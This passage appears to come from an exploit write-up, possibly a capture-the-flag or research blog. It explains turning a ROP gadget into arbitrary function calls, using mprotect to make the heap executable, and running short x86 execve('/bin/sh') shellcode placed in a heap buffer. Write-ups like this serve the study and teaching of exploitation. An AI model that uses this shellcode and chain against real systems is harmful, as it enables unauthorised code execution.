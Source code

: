 This is actually a great gadget, by replacing `printf` with any function address I want, I can call any function with arbitrary arguments.
So I also utilized this ROP to call `mprotect` to make the heap executable:<br/>

![heapRWXP](/assets/img/heap_rwxp.png)

Now I just need to execute shellcode on the heap.
I created a short shellcode using x86 assembly that executes "/bin/sh":

```asm
global _func

; shellcode entry
_func:  
    ; call execve - run /bin/sh
    mov DWORD [esp+0xc], 0x6e69622f
    mov DWORD [esp+0x10], 0x0068732f
    mov eax, 0xb ; execve syscall number
    lea ebx, [esp+0xc] ; /bin/sh string
    mov ecx, 0x00 ; NULL - argv
    mov edx, 0x00 ; NULL - envp
    int 0x80
```

I chose the secondMessage->randomsArray to be a good area to place my shellcode, being able to calculate its address by adding the offset to the leaked heap address and later calling it using the arbitrary EIP control primitive.
Chaining it all together to get code execution:<br/>

![finalCodeExecution](/assets/img/final_code_execution.png)
